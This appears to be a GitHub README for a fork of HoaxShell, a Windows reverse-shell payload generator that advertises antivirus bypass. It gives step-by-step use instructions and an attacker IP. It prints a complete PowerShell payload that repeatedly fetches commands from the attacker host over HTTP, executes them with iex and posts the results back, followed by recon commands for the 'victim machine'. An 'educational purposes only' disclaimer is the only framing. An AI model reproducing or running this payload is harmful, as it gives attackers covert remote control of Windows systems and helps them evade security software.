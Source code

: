 <h1 style="font-size:10vw" align="left">HoaxShell - Bypassing an Active Windows Security</h1>


[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.11-blueviolet.svg)](https://www.python.org/) <img src="https://img.shields.io/badge/Antivirus%20Bypassed-%E2%89%A5%20Yes-blue">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">


******
⚠️ *For educational and authorized security research purposes only*


## Original Exploit Authors
Very grateful to the original script author [t3l3machus](https://github.com/t3l3machus)


## Description
Hoaxshell is a windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell, based on the following concept:  

![image](https://user-images.githubusercontent.com/75489922/197529603-1c9238ea-af14-41f7-8834-dd37ad77e809.png)

This c2 concept (which could be implemented by using protocols other than http or pre-installed exes) can be used to establish sessions that promote the illusion of having a shell, but are far from an actual pty.


## Demo
![bypass](https://github.com/asepsaepdin/hoaxshell/assets/122620685/a00ade63-5e5d-4663-80fd-b7e9b0d4c755)


******
## Step Guides
1. First, install all the requirements
```
sudo pip3 install -r requirements.txt
```
2. Make the script executable
```
chmod +x hoaxshell.py
```
3. Run the script and specify  the **-s 192.168.25.72** with the perpetrator's address
```
./hoaxshell.py -s 192.168.25.72 -r -H "Authorization"
```
4. Run the script in powershell on the victim machine with some obfuscation technique
```
$xxxxx='None';$s='192.168.25.72:8080';$i='7f588da6-a3488a4c-7fa96807';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/7f588da6 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a3488a4c -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxxxx) {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/7fa96807 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8} 
```
6. Check the operating system information used by victim machine
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
5. And check the antivirus product used by victim machine
```
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
```


******
## Credits
- https://github.com/t3l3machus/hoaxshell#AV-Bypass-PoCs
- https://www.youtube.com/watch?v=3HddKylkRzM
- https://www.youtube.com/watch?v=fgSARG82TJY
- https://www.revshells.com/
